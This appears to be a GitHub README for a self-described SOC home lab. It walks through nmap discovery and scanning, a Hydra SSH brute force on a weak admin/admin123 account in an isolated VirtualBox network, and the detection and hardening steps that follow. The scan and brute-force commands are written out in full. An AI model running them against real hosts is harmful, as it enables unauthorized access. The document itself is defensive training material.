






# 🔴 Red Team vs 🔵 Blue Team — SSH Attack & Detection Home Lab

A fully hands-on home lab exercise where I played both sides of a real cyberattack — attacker and defender — on two isolated Kali Linux VMs. Every command was actually run. Every packet was actually captured. Every log was actually read.

**Attack chain:** Host Discovery → Port Scanning → SSH Brute Force → Breach  
**Detection:** Wireshark + journalctl live log monitoring  

---

## 🧪 Lab Setup

| Component | Detail |
|---|---|
| Attacker VM | Kali Linux — IP: 192.168.56.102 |
| Defender VM | Kali Linux — IP: 192.168.56.101 |
| Network | VirtualBox Host-Only — 192.168.56.0/24 (fully isolated) |
| Target service | OpenSSH 10.2p1 — PasswordAuthentication yes |
| Weak account | Username: `admin` — Password: `admin123` |

Both VMs run on one laptop (ASUS TUF Gaming, 16GB RAM). The Host-Only adapter keeps everything isolated — no real systems were ever touched.

```
LAPTOP
├── Attacker Kali VM   192.168.56.102  ← attacks launched here
└── Defender Kali VM   192.168.56.101  ← SSH server running here
```

---

## ⚔️ Attack Phases

### Phase 1 — Host Discovery

```bash
# Find your own subnet first
ip a

# Sweep the network for live hosts
nmap -sn 192.168.56.0/24
```

Nmap sends ARP requests to every address in the subnet. The defender at `.101` replies. MAC address `08:00:27:FA:AD:8E` instantly identifies this as a VirtualBox NIC.

**Mistake made (and learned from):** First scan hit the wrong subnet (`172.16.50.0/24` — the NAT adapter, not the Host-Only one). Found nothing. Always run `ip a` first and confirm your interface.


*nmap -sn finds the defender at 192.168.56.101 — Wireshark (right) shows the ARP flood arriving*

---

### Phase 2 — Port Scanning

```bash
# Service and version detection
nmap -sV 192.168.56.101

# Stealth SYN scan (half-open, never completes handshake)
sudo nmap -sS 192.168.56.101

# Full aggressive scan (OS + version + scripts + traceroute)
nmap -A 192.168.56.101
```

**Output from -sV:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.2p1 Debian 5 (protocol 2.0)
```

**Defender Wireshark filter:** `tcp.flags.syn == 1 && tcp.flags.ack == 0`


*Wireshark with SYN filter — the SYN flood from 192.168.56.102 across multiple ports is unmistakable*

| Packet Pattern | What It Means |
|---|---|
| SYN → SYN-ACK → RST | Port is open (stealth scan backed off) |
| SYN → RST, ACK | Port is closed |
| ICMP Destination Unreachable | Port is filtered |
| SSHv2 Key Exchange | Nmap doing version fingerprinting |

---

### Phase 3 — SSH Brute Force with Hydra

#### First attempt — rockyou.txt (14 million passwords) — FAILED ❌

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.101 -t 4 -V
```


*`[ERROR] all children disabled due to too many connection errors` — 14M wordlist too aggressive for SSH rate limiting*

SSH uses PAM which limits simultaneous authentication attempts. Hydra at 4 threads hit the limit, SSH started dropping connections, Hydra aborted. Zero passwords tried successfully.

#### Second attempt — custom wordlist (11 passwords) — SUCCESS ✅

```bash
# Create targeted wordlist
cat > ~/lab_wordlist.txt << EOF
admin
password
123456
fck0908
loveyou
0908
fckyou0908
letmein
whorehouse
welcum
admin123
EOF

# Run with stable settings for SSH
hydra -l admin -P ~/lab_wordlist.txt ssh://192.168.56.101 -t 2 -W 3 -V
```

| Flag | Purpose |
|---|---|
| `-t 2` | Only 2 threads — won't trigger SSH lockout |
| `-W 3` | Wait 3 seconds between retries — lets PAM recover |
| `-V` | Verbose — shows every attempt live |


*`[22][ssh] host: 192.168.56.101 login: admin password: admin123` — 11th attempt wins*

**Key insight:** Bigger wordlists don't mean faster results. SSH rate limits punish aggressive tools. A targeted top-20 common password list will succeed where rockyou.txt gets throttled and aborted.

---

### Phase 4 — Breach

```bash
ssh admin@192.168.56.101
# password: admin123

(admin@user)-[~]$   ← attacker is now inside
```

---

## 🛡️ Detection — What the Defender Sees

### Live SSH Log Monitoring

```bash
# Run on Defender VM — streams logs live
sudo journalctl -u ssh -f
```


*The breach moment — 10x `Failed password` entries from 192.168.56.102, then one `Accepted password for admin`, then `session opened for user admin(uid=1001)`*

### The PAM Finding

```
PAM service(sshd) ignoring max retries; 5 > 3
```


*Side by side — attacker (left) logged in with `admin@user` shell, defender journalctl (right) showing the full breach sequence*

> **Critical:** `MaxAuthTries` in sshd_config does **NOT** block a brute force attack. It only generates a log entry. The attack continued uninterrupted after this warning. You need `fail2ban` to actually block the attacker IP.

### Wireshark Filters Used

| Filter | What It Catches |
|---|---|
| `arp` | Host discovery sweep — ARP flood from one source |
| `tcp.flags.syn == 1 && tcp.flags.ack == 0` | Port scan — SYN storm pattern |
| `tcp.port == 22` | Brute force — repeated short SSH sessions from one IP |

---

## 📊 Full Attack Timeline

| 🔴 Red Team — Action | 🔵 Blue Team — Detection |
|---|---|
| `nmap -sn` on wrong subnet | Wireshark: ARP to wrong range — defender unaffected |
| `nmap -sn 192.168.56.0/24` | Wireshark: ARP flood from attacker to all addresses |
| `nmap -sV 192.168.56.101` | Wireshark: SSHv2 banner exchange — version leaked |
| `sudo nmap -sS 192.168.56.101` | Wireshark: SYN → RST storm across all ports |
| `nmap -A 192.168.56.101` | Wireshark: ICMP unreachables + SSHv1 script probes |
| `hydra` with `rockyou.txt` — **FAILED** | SSH throttled connections; Hydra aborted |
| `hydra` with `lab_wordlist.txt` (11 passwords) | journalctl: 10× `Failed password` → 1× `Accepted password` |
| `ssh admin@192.168.56.101` | journalctl: `session opened for user admin` — breach |

---

## 🔐 Hardening — How to Stop This Attack

```bash
# 1. Disable password authentication entirely — key-only SSH
sudo nano /etc/ssh/sshd_config
# Change: PasswordAuthentication yes → no
# Add:    AllowUsers your_username
sudo systemctl restart ssh

# 2. Install fail2ban — auto-blocks IPs after N failed attempts
sudo apt install fail2ban -y
sudo systemctl enable --now fail2ban

# 3. Block attacker IP immediately (incident response)
sudo iptables -A INPUT -s 192.168.56.102 -j DROP

# 4. Kill any active attacker sessions
sudo pkill -u admin
sudo who   # verify they're gone
```

---

## 🗺️ MITRE ATT&CK Mapping

| Technique | ID | How This Lab Replicates It |
|---|---|---|
| Network Service Scanning | T1046 | `nmap -sn` and `nmap -sV` |
| Brute Force: Password Guessing | T1110.001 | Hydra against SSH |
| Valid Accounts | T1078 | Using cracked `admin/admin123` to log in |
| Remote Services: SSH | T1021.004 | Initial access technique used here |

---

## 💡 Key Takeaways

**11 passwords beat 14 million.**  
Targeted credential attacks work because most systems have predictable default passwords. SSH rate limits punish large wordlists — quality over quantity.

**Detection without response is useless.**  
PAM saw the brute force and logged a warning. The server got compromised anyway. Logging is step one. Automated blocking (`fail2ban`) is step two.

**Every attack has a packet signature.**  
ARP sweep, SYN storm, repeated SSH sessions — each looks completely distinct from normal traffic in Wireshark. Recognising these patterns is the core skill of a network defender.

**One config line is the root cause.**  
`PasswordAuthentication yes` in `sshd_config` makes the entire attack chain possible. Change it to `no` and brute force becomes mathematically impossible.

---

## 🛠️ Tools Used

- [Kali Linux](https://www.kali.org/) — attacker and defender OS
- [VirtualBox](https://www.virtualbox.org/) — VM hypervisor
- [Nmap](https://nmap.org/) — network discovery and port scanning
- [Hydra](https://github.com/vanhauser-thc/thc-hydra) — SSH brute force
- [Wireshark](https://www.wireshark.org/) — packet capture and analysis
- [OpenSSH](https://www.openssh.com/) — SSH server on defender VM

---

## 📁 Repository Structure

```
├── README.md                    ← this file
├── screenshots/
│   ├── 01_host_discovery_nmap.png
│   ├── 02_port_scan_wireshark.png
│   ├── 03_rockyou_fail.png
│   ├── 04_hydra_cracked.png
│   ├── 05_journalctl_breach.png
│   └── 06_side_by_side_breach.png
└── Red_vs_Blue_Team_Lab.docx    ← full writeup with all screenshots
```

---

> ⚠️ **All attacks were performed exclusively on owned, isolated VMs. No real systems were targeted. This exercise is for educational purposes only.**

---

*Made with Kali Linux on VirtualBox — SOC analyst home lab practice*
